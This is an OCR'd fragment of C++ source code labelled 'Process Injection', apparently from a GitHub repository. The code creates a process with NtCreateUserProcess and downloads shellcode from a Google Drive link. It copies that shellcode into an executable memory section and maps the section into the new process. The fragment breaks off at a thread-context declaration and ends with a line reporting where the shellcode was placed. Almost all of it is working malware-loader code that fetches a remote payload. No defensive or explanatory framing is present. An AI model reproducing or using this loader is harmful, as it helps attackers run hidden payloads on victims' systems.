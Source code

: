 ```
	{
		AttributeList->TotalLength -= sizeof(PS_ATTRIBUTE);
	}
	
	/* Process Injection */

	// Create the process
	HANDLE ntHandle = NULL, ntThread = NULL;
	ntCreateUserProcess(&ntHandle, &ntThread, MAXIMUM_ALLOWED, MAXIMUM_ALLOWED, &objAttr, &objAttr, 0x00000200, 0x00000001, ProcessParameters, &CreateInfo, AttributeList);

	// download shellcode
	std::vector<BYTE> shellcode = Download(L"www.drive.google.com\0", L"/u/5/uc?id=1WUDbPX-v47lxMcE0e9K_Uqk6G83AZa5_&export=download\0");

	// create section in local process
	HANDLE localSection;
	LARGE_INTEGER localszSection = { shellcode.size() };

	NTSTATUS status = ntCreateSection(
		&localSection,
		SECTION_ALL_ACCESS,
		NULL,
		&localszSection,
		PAGE_EXECUTE_READWRITE,
		SEC_COMMIT,
		NULL);

	// map section into memory of local process
	PVOID hLocalAddress = NULL;
	SIZE_T viewSize = 0;

	status = ntMapViewOfSection(
		localSection,
		GetCurrentProcess(),
		&hLocalAddress,
		NULL,
		NULL,
		NULL,
		&viewSize,
		ViewShare,
		NULL,
		PAGE_EXECUTE_READWRITE);

	// copy shellcode into local memory
	RtlCopyMemory(hLocalAddress, &shellcode[0], shellcode.size());

	// map section into memory of remote process
	PVOID hRemoteAddress = NULL;

	status = ntMapViewOfSection(
		localSection,
		ntHandle,
		&hRemoteAddress,
		NULL,
		NULL,
		NULL,
		&viewSize,
		ViewShare,
		NULL,
		PAGE_EXECUTE_READWRITE);

	CONTEXT threadContext;
```

[+]: Shellcode located at c7160